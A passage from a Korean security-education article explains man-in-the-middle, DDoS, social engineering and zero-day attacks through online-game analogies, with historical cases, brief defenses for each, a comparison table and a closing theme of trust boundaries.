**실제 사례**: 1988년 모리스 웜은 Unix의 `fingerd` 서비스의 버퍼 오버플로우를 이용했다. 2003년 **SQL Slammer** 웜은 Microsoft SQL Server의 버퍼 오버플로우를 통해 10분 만에 전 세계 75,000대의 서버를 감염시켰다. 376바이트 크기의 단일 UDP 패킷이 전부였다.

**간략 방어법**:
- ASLR(Address Space Layout Randomization): 메모리 주소를 무작위화하여 공격자가 정확한 주소를 알 수 없게 함
- DEP/NX(Data Execution Prevention / No-Execute): 데이터 영역의 코드 실행을 차단
- Stack Canaries: 리턴 주소 앞에 랜덤 값을 배치하여 덮어쓰기를 탐지
- 안전한 함수 사용: `strcpy` 대신 `strncpy`, `gets` 대신 `fgets`

### 4. Man-in-the-Middle (MitM) -- 보이스챗을 도청하고 조작하다

> **한줄요약**: 통신하는 두 당사자 사이에 몰래 끼어들어 메시지를 도청하거나 변조하는 공격

**게임 비유**: 길드원 A와 B가 파티 보이스챗으로 레이드 전략을 논의하고 있다. 그런데 누군가가 그 보이스챗 중간에 몰래 끼어들어 대화를 전부 듣고 있다. 더 나아가, A가 "오른쪽으로 가자"라고 말한 것을 B에게는 "왼쪽으로 가자"로 바꿔서 전달한다. 두 사람 모두 상대방과 직접 대화하고 있다고 생각하지만, 실제로는 공격자를 경유하여 통신하고 있는 것이다.

#### 상세 원리

MitM 공격의 핵심은 **통신 경로의 장악**이다. 공격자는 다양한 방법으로 두 당사자 사이에 자신을 위치시킨다:

- **ARP Spoofing**: 로컬 네트워크에서 ARP(Address Resolution Protocol) 테이블을 조작하여 트래픽을 자신을 경유하도록 리다이렉트
- **DNS Spoofing**: DNS 응답을 위조하여 피해자를 가짜 서버로 유도
- **Wi-Fi 도청**: 공개 Wi-Fi에서 암호화되지 않은 트래픽을 가로챔
- **SSL Stripping**: HTTPS 연결을 HTTP로 다운그레이드하여 암호화를 무력화



**실제 사례**: 2015년 Lenovo는 자사 노트북에 **Superfish**라는 애드웨어를 사전 설치했다. 이 소프트웨어는 HTTPS 트래픽을 가로채기 위해 **자체 루트 인증서**를 시스템에 설치했다. 이는 본질적으로 모든 HTTPS 통신에 대한 MitM 공격을 가능하게 했다. 더 심각한 문제는 Superfish의 인증서 개인키가 모든 Lenovo 노트북에서 동일했고, 이 키가 추출되어 공개되면서 해당 노트북을 사용하는 **모든 사용자의 HTTPS 통신**이 위험에 노출되었다는 것이다.

**간략 방어법**:
- HTTPS/TLS: 통신 암호화로 도청 및 변조 방지
- 인증서 피닝(Certificate Pinning): 특정 인증서만 신뢰하도록 고정
- HSTS(HTTP Strict Transport Security): 브라우저가 항상 HTTPS를 사용하도록 강제
- VPN 사용: 공개 네트워크에서의 통신 보호

### 5. DDoS (Distributed Denial of Service) -- 봇 100만 명을 동시 접속시키다

> **한줄요약**: 대량의 트래픽으로 서버나 네트워크를 과부하시켜 정상적인 서비스를 방해하는 공격

**게임 비유**: WoW(World of Warcraft) 확장팩 출시일에 100만 명의 봇이 동시에 접속하여 서버를 터뜨리는 것을 상상해 보라. 확장팩 출시일의 서버 폭주는 의도치 않은 것이지만, DDoS는 이것을 **의도적으로** 일으키는 공격이다. 정상적인 플레이어들은 접속할 수 없게 되고, 서비스는 마비된다.



#### DDoS 유형

DDoS 공격은 OSI 모델의 계층에 따라 크게 세 가지로 분류된다:

**볼륨 공격 (Volume-based Attacks)**: 목표 서버의 **대역폭**을 고갈시키는 공격이다. UDP Flood, DNS Amplification, NTP Amplification 등이 있다. 특히 Amplification(증폭) 공격은 작은 요청으로 큰 응답을 유발하는 프로토콜의 특성을 악용한다. 예를 들어, DNS Amplification에서 공격자는 출발지 IP를 피해자의 IP로 위조하여 DNS 서버에 질의를 보내면, DNS 서버가 피해자에게 수십 배로 증폭된 응답을 전송한다.

**프로토콜 공격 (Protocol Attacks)**: 서버의 **연결 자원**을 고갈시키는 공격이다. SYN Flood가 대표적인데, TCP 3-way Handshake의 첫 단계(SYN)만 대량으로 보내고 나머지 단계를 완료하지 않아 서버의 Half-open Connection 테이블을 가득 채운다. 게임으로 치면, 파티 신청만 수만 건 보내놓고 수락/거절은 하지 않아 파티 시스템을 마비시키는 것이다.

**애플리케이션 공격 (Application Layer Attacks)**: 서버의 **처리 능력**을 고갈시키는 공격이다. HTTP Flood는 정상적인 HTTP 요청을 대량으로 보내는 것이고, Slowloris는 HTTP 연결을 극도로 느리게 유지하여 서버의 동시 연결 수를 소진시킨다. 게임으로 치면, NPC에게 동시에 10만 명이 퀘스트 대화를 걸어 서버 로직을 멈추게 하는 것이다.

**실제 사례**: 2016년 **Mirai 봇넷**은 기본 비밀번호를 사용하는 IoT 기기(CCTV, 공유기, DVR 등)를 감염시켜 대규모 봇넷을 구성했다. 이 봇넷은 DNS 제공업체 Dyn을 공격하여 Twitter, Netflix, Spotify, Reddit, GitHub 등 주요 인터넷 서비스를 수 시간 동안 마비시켰다. 공격 트래픽은 최대 **1.2Tbps**에 달했다.

**간략 방어법**:
- CDN(Content Delivery Network): 트래픽을 분산하여 단일 서버 과부하 방지
- 트래픽 스크러빙(Traffic Scrubbing): 악성 트래픽을 필터링하는 전문 서비스
- Rate Limiting: IP당 요청 횟수 제한
- Anycast: 동일한 IP 주소를 여러 서버에 할당하여 부하 분산

### 6. Social Engineering -- 가장 강력한 무기는 코드가 아니라 심리학

> **한줄요약**: 기술이 아닌 인간의 심리적 취약점을 이용하여 정보를 탈취하거나 시스템 접근 권한을 얻는 공격

**게임 비유**: MMORPG에서 "나 운영자인데 계정 점검 중이야. 비밀번호 알려줘"라는 귓속말을 받아본 적이 있는가? 이것이 바로 소셜 엔지니어링의 가장 원시적인 형태다. 기술적으로 아무리 완벽한 보안 시스템을 구축해도, 그 시스템을 운용하는 **사람**을 속일 수 있다면 모든 것이 무너진다.

전설적인 해커 케빈 미트닉(Kevin Mitnick)은 이렇게 말했다:

> "나는 코드를 해킹한 것이 아니라 사람을 해킹했다."

그는 FBI에 체포되기까지 수년간 수십 개의 기업 시스템에 침입했는데, 가장 자주 사용한 도구는 코드가 아니라 **전화기**였다. IT 지원팀을 사칭하거나, 신입 직원인 척하거나, 긴급 상황을 연기하여 직원들로부터 비밀번호와 접근 권한을 얻어냈다.

#### 소셜 엔지니어링의 유형

**피싱(Phishing)**: 공식 이메일을 모방한 가짜 이메일을 보내 가짜 로그인 페이지로 유도한다. "귀하의 계정에 비정상적인 접근이 감지되었습니다. 즉시 비밀번호를 변경해 주세요." 같은 메시지가 대표적이다. 게임으로 치면, 공식 게임 포럼처럼 보이는 가짜 사이트를 만들어 계정 정보를 탈취하는 것이다.

**스피어 피싱(Spear Phishing)**: 일반적인 피싱이 불특정 다수를 대상으로 한다면, 스피어 피싱은 **특정 개인**을 정밀 타격한다. 대상의 SNS, LinkedIn, 사내 조직도 등을 조사하여 맞춤형 공격 메시지를 작성한다. "김 팀장님, 지난주 회의에서 말씀하신 프로젝트 보고서 첨부합니다"처럼 실제 업무 맥락을 반영한다.

**프리텍스팅(Pretexting)**: 가짜 신분이나 시나리오를 만들어 대상에게 접근한다. IT 지원팀을 사칭하여 "시스템 업데이트를 위해 비밀번호가 필요합니다"라고 하거나, 상사를 사칭하여 긴급한 자금 이체를 요청하는 등의 방식이다. BEC(Business Email Compromise) 공격이 이 범주에 해당하며, FBI에 따르면 2019년부터 2023년까지 BEC로 인한 피해액은 500억 달러를 초과한다.

**베이팅(Baiting)**: 악성 소프트웨어가 담긴 USB 드라이브를 회사 주차장이나 로비에 흘려놓는 공격이다. USB에는 "연봉 인상 명단.xlsx"나 "기밀 프로젝트 계획.pdf" 같은 호기심을 자극하는 파일명이 적혀 있다. 누군가가 이것을 주워서 회사 컴퓨터에 연결하면 악성 코드가 실행된다.

**테일게이팅(Tailgating)**: 보안 출입문을 통과하는 직원 바로 뒤를 따라 들어가는 물리적 침입 방법이다. "출입증을 안 가져왔어요, 좀 열어주실래요?"라는 간단한 요청으로 보안 구역에 접근할 수 있다.

**실제 사례**: 2020년 7월, Twitter는 역사상 최대 규모의 보안 침해를 겪었다. 공격자들은 Twitter 직원에 대한 **전화 기반 소셜 엔지니어링**을 통해 내부 관리 도구에 접근했다. 이를 통해 버락 오바마, 조 바이든, 일론 머스크, 빌 게이츠, 애플 공식 계정 등 세계적인 유명인과 기업의 계정을 탈취하고, 비트코인 사기 메시지를 게시했다. 공격의 시작점은 코드 한 줄이 아니라 **전화 한 통**이었다.

**간략 방어법**:
- 보안 인식 교육(Security Awareness Training): 정기적인 피싱 시뮬레이션 포함
- 다중 인증(MFA, Multi-Factor Authentication): 비밀번호가 유출되어도 추가 인증 필요
- 의심스러운 요청 검증 프로세스: "상사가 메일로 송금을 요청하면 전화로 확인" 등
- 물리적 보안 강화: 출입 통제, USB 포트 비활성화

### 7. Zero-day Exploit -- 출시 당일 발견된 무적 버그

> **한줄요약**: 소프트웨어 개발자도 모르는 취약점을 공격자가 먼저 발견하여 패치가 나오기 전에 악용하는 공격

**게임 비유**: 게임 출시 당일, 개발팀도 모르는 **무적 버그**를 누군가가 발견해 악용하는 것을 상상해 보라. 개발팀은 이 버그의 존재조차 모르고, 알게 되더라도 핫픽스를 만들고 배포하는 데 시간이 걸린다. 그 사이에 치터는 자유롭게 무적 상태로 게임을 휘젓고 다닌다. **패치가 나오기 전까지 완전한 방어가 매우 어렵다.** 네트워크 세그멘테이션, 행위 기반 탐지, WAF/IPS, 가상 패치 등으로 위험을 완화할 수는 있지만, 근본적 해결은 패치 배포 이후에야 가능하다.

#### "제로데이"라는 이름의 유래

"제로데이(Zero-day)"라는 이름은 개발자에게 수정할 시간이 **0일(zero day)** 주어졌다는 의미에서 유래했다. 일반적인 취약점은 발견 후 "책임 있는 공개(Responsible Disclosure)" 과정을 거친다. 연구자가 취약점을 발견하면 벤더에게 먼저 알리고, 패치가 나올 때까지 일정 기간(보통 90일) 비공개로 유지한다. 하지만 제로데이는 이 과정 없이 **발견 즉시 악용**되는 취약점이다.

#### 제로데이 생명주기

1. **취약점 발견**: 공격자 또는 보안 연구자가 소프트웨어에서 알려지지 않은 취약점을 발견한다
2. **익스플로잇 개발**: 발견된 취약점을 실제로 악용할 수 있는 공격 코드를 개발한다
3. **야생에서 악용 (In-the-wild)**: 공격자가 실제 대상에 대해 익스플로잇을 사용하기 시작한다
4. **벤더 인지**: 공격이 탐지되거나 보안 연구자에 의해 벤더가 취약점의 존재를 알게 된다
5. **패치 개발 및 배포**: 벤더가 수정 패치를 개발하고 사용자에게 배포한다
6. **사용자 패치 적용**: 최종 사용자가 패치를 설치하여 취약점을 해소한다

3단계와 4단계 사이의 기간이 바로 **"제로데이 윈도우(Zero-day Window)"**다. 이 기간 동안 공격자는 사실상 무방비 상태의 시스템을 자유롭게 공격할 수 있다. 게임으로 치면, 치터가 무적 버그를 쓰고 있는데 개발팀은 그 버그의 존재조차 모르는 기간이다.

#### 제로데이 시장

제로데이 익스플로잇은 그 희소성과 파괴력 때문에 엄청난 가치를 지닌다. 이를 거래하는 시장은 크게 세 가지로 나뉜다:

- **합법적 시장**: 버그 바운티 프로그램을 통해 벤더에게 직접 판매한다. Google Project Zero, HackerOne 등을 통해 수천에서 수십만 달러의 보상을 받을 수 있다.
- **그레이 시장**: Zerodium 같은 브로커가 정부 기관이나 법 집행 기관에 익스플로잇을 중개 판매한다. iOS 원격 탈옥 제로데이의 가격은 **최대 200만 달러**에 달한다.
- **블랙 마켓**: 다크웹에서 사이버 범죄 조직이나 국가 해킹 그룹에 거래된다.

**실제 사례**: 2021년 Microsoft Exchange Server의 **ProxyLogon** 취약점은 중국 국가 후원 해커 그룹 HAFNIUM에 의해 악용되었다. 패치가 배포되기 전에 전 세계 수만 대의 Exchange 서버가 침해당했다. 2023년 **MOVEit Transfer**의 제로데이 취약점은 러시아 랜섬웨어 그룹 Cl0p에 의해 악용되어 2,500개 이상의 조직에서 데이터가 유출되었다.

**간략 방어법**:
- 제로 트러스트(Zero Trust) 아키텍처: 내부 네트워크도 신뢰하지 않는 보안 모델
- 행동 기반 탐지(Behavioral Detection): 시그니처가 아닌 비정상 행동 패턴을 탐지
- 신속한 패치 적용: 패치가 나오면 최대한 빠르게 적용하는 프로세스 구축
- 버그 바운티 프로그램: 외부 연구자들이 취약점을 선의의 목적으로 보고하도록 장려

### 종합 비교 테이블

지금까지 다룬 7가지 공격 기법을 한눈에 비교할 수 있도록 정리했다.

| 기법 | 공격 대상 | 게임 비유 | 기술 난이도 | 위험도 | 탐지 난이도 |
|------|---------|----------|-----------|--------|-----------|
| SQL Injection | 데이터베이스 | 채팅창 커맨드 주입 | ⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐ |
| XSS | 사용자 브라우저 | 가짜 HUD 삽입 | ⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ |
| Buffer Overflow | 메모리 | 인벤토리→스탯 덮어쓰기 | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| MitM | 네트워크 통신 | 보이스챗 도청+조작 | ⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| DDoS | 서버/네트워크 | 봇 100만 동시접속 | ⭐⭐ | ⭐⭐⭐ | ⭐ |
| Social Engineering | 사람 | 인게임 사기 | ⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| Zero-day | 미패치 소프트웨어 | 출시일 무적 버그 | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |

이 테이블에서 주목해야 할 점은 두 가지다. 첫째, **기술 난이도가 가장 낮은 Social Engineering이 위험도와 탐지 난이도는 최고**라는 것이다. 이는 보안에서 가장 약한 고리가 항상 사람이라는 사실을 반영한다. 둘째, **기술 난이도가 높은 기법(Buffer Overflow, Zero-day)은 탐지도 어렵다**는 것이다. 고도의 기술력이 필요한 만큼, 방어 측에서도 그만큼 고도의 기술이 필요하다.

---

## 마무리

### 모든 공격을 관통하는 하나의 패턴

이 글에서 다룬 7가지 기법을 다시 돌아보면, 모든 공격을 관통하는 하나의 패턴이 보인다. 그것은 **"신뢰의 경계(Trust Boundary)를 넘는 것"**이다.

- **SQL Injection**: SQL 쿼리와 사용자 입력의 경계. 시스템은 사용자 입력이 "데이터"일 것이라고 신뢰했지만, 공격자는 "코드"를 넣었다.
- **XSS**: 서버 콘텐츠와 사용자 스크립트의 경계. 브라우저는 페이지의 모든 스크립트를 해당 사이트의 것으로 신뢰했지만, 공격자의 스크립트가 섞여 있었다.
- **Buffer Overflow**: 데이터 영역과 코드 영역의 경계. 프로그램은 버퍼에 데이터만 들어올 것이라고 신뢰했지만, 공격자는 실행 흐름을 변조하는 데이터를 넣었다.
- **MitM**: 송신자와 수신자의 신뢰 경계. 두 당사자는 서로 직접 통신하고 있다고 신뢰했지만, 중간에 공격자가 끼어들었다.
- **DDoS**: 정상 트래픽과 악성 트래픽의 경계. 서버는 들어오는 요청이 정상 사용자의 것이라고 신뢰했지만, 대부분이 봇의 트래픽이었다.
- **Social Engineering**: 신뢰할 수 있는 사람과 공격자의 경계. 사람은 상대방이 자신이 주장하는 바로 그 사람이라고 신뢰했지만, 실제로는 위장한 공격자였다.
- **Zero-day**: 알려진 것과 알려지지 않은 것의 경계. 시스템은 알려진 취약점이 모두 패치되었다고 신뢰했지만, 아직 알려지지 않은 취약점이 존재했다.

보안의 본질은 결국 **"신뢰하되, 검증하라(Trust, but verify)"**라는 원칙으로 귀결된다. 그리고 현대 보안의 패러다임인 **제로 트러스트(Zero Trust)**는 한 단계 더 나아가 **"절대 신뢰하지 말고, 항상 검증하라(Never trust, always verify)"**를 원칙으로 한다.

### 2편 예고

공격을 알았으니, 이제 방어를 알아볼 차례다. 2편 **"방패의 기술"**에서는 게임 안티치트 시스템의 작동 원리부터 기업 보안의 핵심 기술, 그리고 AI 시대의 새로운 위협과 방어 전략까지 다룬다. 적의 무기를 알았으니, 이제 그에 맞서는 방패를 만들어 보자.
